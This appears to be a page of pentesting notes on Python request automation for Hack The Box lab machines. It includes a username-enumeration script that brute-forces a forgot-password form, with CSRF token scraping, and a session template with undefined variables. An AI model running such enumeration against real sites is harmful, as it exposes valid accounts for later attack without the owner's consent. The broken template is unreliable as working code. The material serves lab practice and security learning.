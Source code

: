 # Python Automation 1

## Sessions request

```text
import requests
import re

def TestRequest(filename):
    
    url = "http://10.10.10.93/transfer.aspx"
    
    s = requests.session()
    
    # For GET requests
    data1 = s.get(url)
    print(r.text)
    
    # For post requests
    # post_data = { 'session': value, 'text': value2 }
    data2 = s.post(url, data=post_data)
    
    
TestRequest("Please Subscribe")
```

## Example 1 : Serialized POST request automation for upload bypass

![request](../../.gitbook/assets/image%20%28120%29.png)

![python automation](../../.gitbook/assets/image%20%28121%29.png)

Here burp was used to validate if the request is generate properly.

![final script](../../.gitbook/assets/image%20%28122%29.png)

## Example 2 : Using regular expression

```text
import requests, re, signal, sys

#Send Request

if __name__ == '__main__':

    url = "http://bart.htb/monitor/?action=forgot"

    s = requests.session()

    data = s.get(url)

    csrf_value = re.findall(r'<input type="hidden" name="csrf" value="(.*?)"', data.text)

    # print(csrf_value[0])

    with open("/home/user/Documents/HTB/Bart/content/users.txt", "r") as f:
        for username in f.read().splitlines():
            post_data = {
                    'csrf' : csrf_value,
                    'user_name' : '%s' % username
            }

            data = s.post(url, data=post_data)

            if "The provided username could not be found." not in data.text:
                print("Valid User is : %s" % username)

```

